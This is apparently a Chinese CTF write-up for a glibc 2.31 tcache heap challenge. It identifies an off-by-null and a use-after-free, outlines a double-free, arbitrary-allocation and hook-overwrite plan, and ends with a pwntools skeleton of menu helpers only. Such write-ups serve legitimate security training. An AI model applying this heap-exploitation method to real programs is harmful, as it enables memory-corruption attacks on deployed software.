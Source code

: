 打开时发现plt分析错误

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103767800-a6775ec2-fbd7-49ef-9396-f77f69a164c5.png)

并且前端存在![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103808772-dcc3a5d6-e888-4cd2-9908-3a47ce90bad9.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103858293-0f71717b-2882-4814-8911-09ee5c7f2402.png)

endbr64保证程序流不被打断，若是call指令前没这个就会报错，限制了gadgets

新增了一个段.plt.sec

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103904828-9918793d-d440-4f3a-b239-a50def282637.png)

可以下个插件https://github.com/veritas501/PltResolver分析

add函数：只能申请到tcache，并且存在off-by-null

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103981611-e74608c6-a21e-4f56-9d66-4f45691db482.png)

del函数存在uaf

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104052956-0075a6df-3855-4ca0-b579-1f44c935e228.png)

### 调试

通过off-by-null修改chunk大小，double free就可以绕过检查了

之后任意地址申请先把count修改了，并且leak----改hook即可

### 脚本

```python
from pwn import *

p = process('./tcache231')
context.log_level = 'debug'
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] 
    gdb.attach(proc.pidof(p)[0]) 
    # os.system("gnome-terminal -- gdb -q ./tcache231 " + str(proc.pidof(p)[0]))

def new(s,c):
    p.recvuntil('>')
    p.sendline('1')
    p.recvuntil('size')
    p.sendline(str(s))
    p.recvuntil('data')
    p.send(c)
    
def delete(i):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('index')
    p.sendline(str(i))
    
def show(i):
    p.recvuntil('>')
    p.sendline('3')
    p.recvuntil('index?')
    p.sendline(str(i))

# launch_gdb()
```